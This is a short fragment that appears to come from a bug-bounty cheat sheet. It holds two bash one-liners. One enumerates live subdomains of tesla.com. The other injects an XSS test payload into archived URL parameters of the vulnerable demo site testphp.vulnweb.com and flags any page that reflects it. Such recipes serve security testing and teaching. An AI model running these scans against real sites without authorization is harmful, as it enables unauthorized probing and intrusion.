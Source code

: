 ```bash
subfinder -d http://tesla.com -silent | httpx -silent -follow-redirects -mc 200 | cut -d '/' -f3 | sort -u
```

### Xss Without gf
> @Hacktify Cyber Security

```bash
 waybackurls testphp.vulnweb.com| grep '=' |qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<script>alert(1)</script>" && echo "$host \033[0;31m" Vulnerable;done                                                                                   


```
